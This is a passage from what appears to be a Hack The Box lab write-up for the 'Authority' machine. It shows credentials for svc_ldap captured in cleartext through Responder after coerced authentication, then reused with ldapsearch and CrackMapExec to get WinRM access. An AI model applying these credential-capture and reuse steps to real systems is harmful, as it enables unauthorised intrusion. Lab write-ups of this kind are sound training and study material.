 We were able to successfully coerce authentication to our server and gather sensitive information and in this case clear-text credentials.

![Untitled](Authority%20a3042a30632b45c180804fb6597f026a/Untitled%205.png)

Since I had tried this multiple times, the clear text credentials could be found in the logs of `responder`.

```jsx
┌─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $cat /usr/share/responder/logs/LDAP-Cleartext-ClearText-10.10.11.222.txt 
b'CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb':b'lDaP_1n_th3_cle4r!'
b'CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb':b'lDaP_1n_th3_cle4r!'
```

Since I have credentials for `svc_ldap` account, I tried to enumerate LDAP information from `ldapsearch` but couldn’t. My understanding here was that LDAP was configured to work only in `LDAPS` and that I couldn't get to work so I moved on to `crackmapexec` for this.

```jsx
┌─[noob@parrot]─[~/htb/authority/notes/smb_development]
└──╼ $ldapsearch -x -H ldap://10.10.11.222 -D 'authority\svc_ldap' -w 'lDaP_1n_th3_cle4r!' -b 'DC=authority,DC=htb' '(objectClass=user)'
ldap_bind: Invalid credentials (49)
	additional info: 80090308: LdapErr: DSID-0C090439, comment: AcceptSecurityContext error, data 52e, v4563
```

Confirmed that the credentials for `svc_ldap` were correct and also that this user had `WINRM` access over the domain.

```jsx
root@a5c35e0df3f9:/usr/src/crackmapexec# cme winrm 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
SMB         10.10.11.222    5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
HTTP        10.10.11.222    5985   AUTHORITY        [*] http://10.10.11.222:5985/wsman
HTTP        10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
```
